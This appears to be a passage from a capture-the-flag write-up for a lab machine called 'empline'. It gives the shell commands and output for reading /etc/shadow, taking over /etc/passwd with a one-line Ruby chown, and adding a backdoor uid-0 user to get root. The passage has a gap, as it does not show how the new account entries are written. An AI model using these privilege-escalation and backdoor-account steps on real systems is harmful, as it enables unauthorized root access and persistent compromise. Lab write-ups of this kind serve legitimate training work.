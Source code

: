 ```
(remote) george@empline:/home/george$ grep 'root' /etc/shadow
root:$6$test$bzcdZcb/7XNcrHf09O9O89Vnd8x5hnOsG3cn8C5JyeBhbCyVhZIJS68.DP2LGUsx/6tpfbjmAcFgnUeUT6j120:18828:0:99999:7:::

(remote) george@empline:/home/george$ su -
Password:

root@empline:~# id
uid=0(root) gid=0(root) groups=0(root)
```

We got root access.

# Add user with root privileges

```
(remote) george@empline:/home/george$ echo -n 'File.chown(1002, 1002, "/etc/passwd")' > chown.rb

(remote) george@empline:/home/george$ ruby chown.rb

(remote) george@empline:/home/george$ tail -n 1 /etc/passwd
demo:x:0:0:/tmp:/bin/bash

(remote) george@empline:/home/george$ tail -n 1 /etc/shadow
demo:$6$test$bzcdZcb/7XNcrHf09O9O89Vnd8x5hnOsG3cn8C5JyeBhbCyVhZIJS68.DP2LGUsx/6tpfbjmAcFgnUeUT6j120::0:::::
```

[Understanding the /etc/shadow File](https://linuxize.com/post/etc-shadow-file/)

Once you add a user to ‘passwd’ file and it’s password hash to ‘shadow’ file, you can login now.

```
(remote) george@empline:/home/george$ su demo
Password:

root@empline:/tmp# id
uid=0(root) gid=0(root) groups=0(root)
```

Once you done with the machine, you have to remove the privileges and user/hash.


